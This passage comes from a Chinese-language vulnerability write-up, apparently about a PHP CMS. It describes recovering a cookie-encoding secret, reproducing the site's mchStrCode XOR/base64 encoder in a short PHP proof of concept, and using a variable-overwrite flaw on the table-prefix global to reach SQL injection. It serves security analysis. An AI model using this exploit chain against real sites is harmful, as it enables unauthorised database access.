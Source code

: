 如图 8。取逆出的 key 的前 16 位破解 md5 即可，破解出密匙后就可以利用 mchStrCode 函数来加密参数，同时利用变量覆盖漏洞覆盖$GLOBALS[cfg_dbprefix]实现注入。这里给出一段 POC，代码如下：

```
<?php
$GLOBALS['cfg_cookie_encode'] = 'CaQIm1790O';
function mchStrCode($string,$action='ENCODE')
{
    $key    = substr(md5($GLOBALS['cfg_cookie_encode']),8,18);
    $string    = $action == 'ENCODE' ? $string : base64_decode($string);
    $len    = strlen($key);
    $code    = '';
    for($i=0; $i<strlen($string); $i++)
    {
        $k        = $i % $len;
        $code  .= $string[$i] ^ $key[$k];
    }
    $code = $action == 'DECODE' ? $code : base64_encode($code);
    return $code;
}

```

其中的 CaQIm1790O 就是解密出来的密匙，漏洞分析到处结束，感觉像是在记流水账，将就看看吧，最后上个本地测试 EXP 的图。如图 9。

![enter image description here](img/img9_u31_jpg.jpg)

## 0x03 总结

* * *

